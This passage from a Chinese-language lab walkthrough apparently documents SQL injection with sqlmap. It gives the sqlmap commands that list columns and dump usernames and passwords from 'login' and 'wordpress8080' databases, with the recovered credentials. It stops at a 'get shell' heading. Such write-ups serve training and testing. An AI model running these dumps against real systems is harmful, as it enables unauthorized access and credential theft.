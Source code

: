 sqlmap -r sqltest.txt -D login -T users --columns --batch  

```
+-----------+-------------+
| Column    | Type        |
+-----------+-------------+
| password  | varchar(20) |
| user\_name | varchar(20) |
+-----------+-------------+
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeibzMolfwXUv7Uc5eoAniaUwibPxhf0yHCzgPBtXjWX0WjM3s1yYnTEbRQ/640?wx_fmt=png)

查询 login 数据库下 user\_name 表中的字段，得到 user\_name 字段

sqlmap -r sqltest.txt -D login -T user\_name --columns --batch

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yez3WSvxVib1ErNu05SMiaRqoO5HIphicF7yaUUUsE8wsRTuMXaVE4FqTRg/640?wx_fmt=png)

查询 wordpress8080 数据库下 users 表中的字段，得到 password 与 username 字段

sqlmap -r sqltest.txt -D wordpress8080 -T users --columns --batch

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yefFibu7MT3lvzaA23ibPIGM3FYZNTjXIchrp9CRxpXOK7tsZMaRh2ZOYg/640?wx_fmt=png)

**跑值**  

查询 login 数据库下 user\_name 表下的 user\_name 字段的值，得到 candyshop

sqlmap -r sqltest.txt -D login -T user\_name -C user\_name --dump --batch

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2ye7BwqDDGMp2wJh5Fa7OTbFuZvoswUBI4g3fPXz5AQu3tMvBPHLf0OVQ/640?wx_fmt=png)

查询 login 数据库下 users 表下的 user\_name 字段的值，得到 candyshop 和 Sir

sqlmap -r sqltest.txt -D login -T users -C user\_name --dump --batch

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeT9xASflaWGgdB0JyuBLwB8km0cxzXYppOGIeWAuBRb1crvGvJIdLfA/640?wx_fmt=png)

查询 login 数据库下 users 表下的 password 字段的值，得到 password 和 PopRocks

sqlmap -r sqltest.txt -D login -T users -C password --dump --batch

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeycs5ibY54ye6wYDIjto6rYgeA4PDJQibu78PI3FRM0WXrCGARp4jblbA/640?wx_fmt=png)

查询 wordpress8080 数据库下 users 表下的 username 字段的值，得到 admin

sqlmap -r sqltest.txt -D wordpress8080 -T users -C username --dump --batch  

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeebOEUSUx2S4Q13B49TWkIU6CLWicibWzGq2IB9VPhibvU7PY8TIlrJqSw/640?wx_fmt=png)

查询 wordpress8080 数据库下 users 表下的 password 字段的值，得到 SuperSecretPassword

sqlmap -r sqltest.txt -D wordpress8080 -T users -C password --dump --batch  

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yevYlWGpTq4rRkBneCXMMWrXVkzY2xDFaOibEX5ibvyhEPOAK1E2icZzQfg/640?wx_fmt=png)

**2.4、拿 shell**

